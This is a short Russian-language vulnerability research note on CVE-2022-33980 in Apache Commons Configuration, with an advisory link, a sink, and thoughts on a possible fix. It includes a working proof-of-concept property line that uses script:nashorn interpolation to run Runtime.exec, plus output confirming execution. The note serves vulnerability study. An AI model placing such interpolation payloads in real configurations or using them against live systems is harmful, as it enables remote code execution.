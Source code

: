 ## CVE-2022-33980

https://github.com/advisories/GHSA-xj57-8qj4-c4m6

Уязвимость позволяет злоумышленникам выполнять код или подключаться к удалённым серверам, если используются ненадёжные
значения конфигурации. Таким образом открывается возможность для удалённого исполнения кода

## POC

[config.properties](../src/main/resources/config.properties):

```
property=${script:nashorn:java.lang.Runtime.getRuntime().exec('echo 1')}
```

Код:

[CommonsConfigurationAttack.java](../src/main/java/org/example/CommonsConfigurationAttack.java)

Результат:

```
Interpolated property: Process[pid=17550, exitValue="not exited"]
```

То есть произошел вызов произвольного кода

## Sink

java.lang.invoke.MethodHandle#invokeExact

Публичный метод, который надо вызывать: org.apache.commons.configuration2.builder.fluent.Configurations.properties

## Fix

Конкретное исправление не нашел, но нашел 2 связанные ишью:

- https://issues.apache.org/jira/browse/CONFIGURATION-753
- https://issues.apache.org/jira/browse/CONFIGURATION-764

Также глянул на все коммиты между 2.8.0 и 2.7.0:
https://github.com/apache/commons-configuration/commits/59e5152722198526c6ffe5361de7d1a6a87275c7, но тут тоже не
нашел исправление

Подозреваю, что если бы оно было, то выглядело бы как запрет на уровне конфигурации парсера файлов использовать классы
из nashorn, как это было сделано в библиотеке xstream:

```
xstream.denyTypes(new String[] {"jdk.nashorn.internal.objects.NativeString"});
xstream.denyTypesByRegExp(new String[] {".*\\.ReadAllStream\\$FileStream"});
```
